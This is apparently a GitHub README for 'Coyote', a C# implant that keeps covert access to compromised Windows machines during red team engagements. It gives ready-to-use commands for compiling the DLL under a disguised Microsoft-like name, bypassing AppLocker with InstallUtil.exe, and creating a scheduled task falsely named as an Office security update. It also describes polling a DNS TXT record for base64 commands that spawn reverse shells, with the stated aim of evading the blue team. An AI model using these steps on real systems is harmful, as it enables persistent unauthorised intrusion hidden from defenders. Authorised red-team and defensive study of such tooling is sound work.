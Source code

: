 # Coyote

Coyote is a standalone C# post-exploitation implant for maintaining access to compromised Windows infrastructure during red team engagements.

* Bypasses application whitelisting such as Microsoft AppLocker using InstallUtil.exe (see [MITRE ATT&CK ID: T1218.004](https://attack.mitre.org/techniques/T1218/004/))
* Retrieves commands from operator via recursive DNS tunnel (see [MITRE ATT&CK ID: T1071.004](https://attack.mitre.org/techniques/T1071/004/))
* Small footprint in memory and on the network

The basic premise is for the red team to leave this tiny DLL behind on a compromised Windows system and have it occasionally poll the DNS TXT record of a legitimate looking FQDN to check for instructions. When needed, the TXT record can contain a simple powershell one liner to spawn an interactive reverse shell out to a VPS, or the first stage of something more sophisticated, as per the operator's requirements. Coyote is not used for interactive control of the compromised system, rather to maintain access and spawn some other tool (a reverse shell, meterpreter etc) as required.

### Usage

First of all edit the coyote.cs source file and set the c2domain variable to the subdomain you will be using for your TXT record.

To compile it on your own Windows box: 

C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:msoffice360.dll coyote.cs

This will create a small DLL file of approximately 5 KB called msoffice360.dll (use whatever filename you think will blend in on the target) which you will place on the target system.

To execute it once on the target workstation or server: 

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U msoffice360.dll

For it to be useful, Coyote needs to get executed repeatedly at some interval such as every 24 hours or upon each reboot. There are many ways to achieve this. See [PayloadsAllTheThings - Windows Persistence](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md) for a long list of techniques and pick one.

One way that will serve as an example is to hide the DLL in a user's AppData folder and then simply create a new scheduled task:

schtasks /CREATE /SC DAILY /TN "Microsoft Office security updates task" /TR "C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Olivia\AppData\Local\Microsoft\msoffice360.dll" /ST 08:00

This means that every day at 0800 the built-in InstallUtil.exe will import and run the DLL's uninstall function, which will then do a recursive DNS lookup to check if a command is currently encoded in the TXT record, and if so execute it. This can hopefully remain undetected by the blue team until needed and act as a backup to any other methods being used to maintain remote access to the network.

To leave a command to be executed (generally this will be used to spawn an interactive reverse shell), base64 encode the exact string that you would have typed into the command line and place it in a TXT record on the subdomain that you set when you compiled the implant. Next time the implant calls home it will be executed.

### Proof-of-concept

We base64 encode the string calc.exe to get Y2FsYy5leGU=

We create a TXT record on our DNS server as follows:

TXT	updates.tartaruslabs.com	Y2FsYy5leGU=

This record is saved and from our laptop we then confirm it is active:

user@laptop:~$ host -t txt updates.tartaruslabs.com
updates.tartaruslabs.com descriptive text "Y2FsYy5leGU="

In coyote.cs we set the value of c2domain to "updates.tartaruslabs.com" and then compile it.

We execute the implant and sure enough calculator opens. 

![Coyote screenshot](https://github.com/TartarusLabs/Coyote/blob/main/screenshot.jpg?raw=true)

